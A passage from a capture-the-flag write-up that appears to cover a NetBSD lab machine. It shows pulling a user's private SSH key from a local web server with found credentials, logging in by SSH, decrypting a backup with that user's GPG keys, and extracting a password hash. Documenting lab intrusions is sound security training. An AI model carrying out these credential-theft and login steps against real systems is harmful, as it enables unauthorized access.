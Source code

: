 Unfortunately the shell cuts of parts of the output, but the _"Tail -f Stdout"_ feature in **Supervisor**, shows the full command:
```
/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

The user _r.micheals_ runs this and according to the [NetBSD httpd documentation](https://man.netbsd.org/NetBSD-6.0.1/httpd.8), the `-u` parameter enables access to the user directory:
```
curl localhost:3001/~r.michaels/

<body><h1>401 Unauthorized</h1>
```

Authenticating to the service with the _webapi_user_:
```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/

Index of ~r.michaels

"../" > Parent Directory
"id_rsa" > id_rsa
```

Getting the private SSH key _id_rsa_:
```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa
```

Using the SSH key to login into the box as _r.micheals_:
```
ssh -i rmichaels.key r.michaels@10.10.10.218
```

### Privilege Escalation to root

In the home directory _/home/r.michaels/_ is a directory _.gnupg_ with two **GPG keys**:
```
ls .gnupg

pubring.gpg
secring.gpg
```

In the home directory _/home/r.michaels/_ is a directory _backups_ with an encrypted file called _devel_backup-2020-09-16.tar.gz.enc_.
This file can probably be decrypted with these keys:
```
netpgp --decrypt backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/backups.tar.gz
```

Decompressing the **Tar archive**:
```
tar -zxvf /tmp/backups.tar.gz
```

It contains the same files for the web server as before, but the _.htpasswd_ has a different hash than before:
```
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```
